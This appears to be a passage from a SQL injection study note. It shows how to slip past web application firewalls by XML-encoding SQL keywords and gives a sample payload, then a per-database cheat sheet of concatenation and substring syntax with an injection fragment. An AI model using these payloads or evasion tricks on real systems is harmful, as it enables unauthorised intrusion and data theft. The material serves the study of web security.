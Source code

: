 These different formats may provide different ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often look for common SQL injection keywords within the request, so you may be able to bypass these filters by encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`: 

```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```


# Cheat Sheet

## String Concatenation

We can concatenate together multiple strings to make a single strings. It also works to do a subquery

* **Oracle**:
```
'foo'||'bar'
```

* **Microsoft**:
```
'foo'+'bar'
```

* **PostgreSQL**:
```
'foo'||'bar'
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

* **MySQL**:
```
'foo' 'bar'
CONCAT('foo', 'bar')
```

> **Note**: It's important while concatenating to only retrieve one element.
>
> `'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

## Substring

We can extract a part of a string, from a specified offset with a specified length.

* **Oracle**:
```
SUBSTR('foobar', 4, 2)
```
